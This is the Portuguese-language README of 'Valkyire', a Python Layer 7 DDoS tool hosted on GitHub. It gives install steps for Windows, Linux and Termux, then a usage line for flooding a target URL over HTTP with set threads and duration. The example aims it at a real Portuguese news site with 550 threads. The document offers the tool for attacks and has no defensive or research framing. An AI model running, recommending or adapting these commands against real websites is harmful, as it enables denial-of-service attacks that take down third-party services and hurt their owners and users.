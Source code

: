 <h1 align="center">📡 DDOS Tool (Layer 7) </h1> 
<div align="center">
<img src="https://img.shields.io/badge/Made%20with-Python-1f425f.svg"> <img src="https://svgshare.com/i/ZhY.svg"> <img src="https://img.shields.io/github/forks/nordbearbotdev/Valkyire?style=social&label=Fork&maxAge=2592000"> <img src="https://img.shields.io/github/stars/nordbearbotdev/Valkyire?style=social&label=Star&maxAge=2592000"> <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square"> 
</div>

<p align="center">
  <img src="https://raw.githubusercontent.com/nordbearbotdev/Valkyire/main/img/logo.png" width="200" height="200">
</p>

# :computer: Janela Principal
<p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/Valkyire/main/img/imgshow.png">
</p>

# 🌙 Instalação


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Instala Python 3.8 [aqui](https://www.python.org/downloads/release/python-38)
  - Abre o installer e clica em: `add python to PATH`
  - Faz download do Valkyire <a href="https://github.com/nordbearbotdev/Valkyire/archive/refs/heads/main.zip" target="blank">aqui</a>
  - Abre o cmd ou o PowerShell no diretório Valkyire
  - Execute este comando: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/Valkyire/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/nordbearbotdev/Valkyire
cd Valkyire/
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/nordbearbotdev/Valkyire
cd Valkyire/
pip3 install -r requirements.txt
```

## ❓ Como Usar
O comando básico para poder executar o Valkyire é o seguinte.  

```
python3 Valkyire.py --time XXX --threads XXX --target [URL] --method HTTP
```

Exemplo:  

```
python3 Valkyire.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```

